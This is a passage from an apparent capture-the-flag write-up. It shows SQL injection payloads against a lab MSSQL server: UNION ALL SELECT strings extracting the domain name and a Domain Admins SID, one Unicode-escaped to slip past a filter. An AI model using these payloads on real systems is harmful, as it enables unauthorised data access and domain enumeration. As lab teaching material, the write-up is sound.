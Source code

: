 I can see the static string in the `email field`.

#### Get Default Domain

First step is to get the domain name with `SELECT DEFAULT_DOMAIN()`. I can just replace all the static `CHAR` with that query to get:

```

test' UNION ALL SELECT 58,58,58,DEFAULT_DOMAIN(),58-- gxQm

```

Which encodes to:

```

\u0074\u0065\u0073\u0074\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0041\u004C\u004C\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0035\u0038\u002C\u0035\u0038\u002C\u0035\u0038\u002C\u0044\u0045\u0046\u0041\u0055\u004C\u0054\u005F\u0044\u004F\u004D\u0041\u0049\u004E\u0028\u0029\u002C\u0035\u0038\u002D\u002D\u0020\u0067\u0078\u0051\u006D

```

Which returns MEGACORP:

![image-20200331064000628](https://0xdfimages.gitlab.io/img/image-20200331064000628.png)

#### Get a Domain RID

Now I need to get a domain RID using the `SUSER_SID` function on a known group (I’ll use `MEGACORP/Domain Admins`):

```

test' UNION ALL SELECT 58,58,58,SUSER_SID('MEGACORP\Domain Admins'),58-- gxQm

```

Returns a result, but it’s a funky encoding because it’s being interpreted as a string:

![image-20200331064533176](https://0xdfimages.gitlab.io/img/image-20200331064533176.png)

The article shows a nice hex number coming back, not that garbage. On [StackOverflow](https://stackoverflow.com/questions/703019/convert-integer-to-hex-and-hex-to-integer) I found how I could convert this to hex in the query:

```

test' UNION ALL SELECT 58,58,58,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),58-- gxQm

```

And it works:

![image-20200331064726245](https://0xdfimages.gitlab.io/img/image-20200331064726245.png)
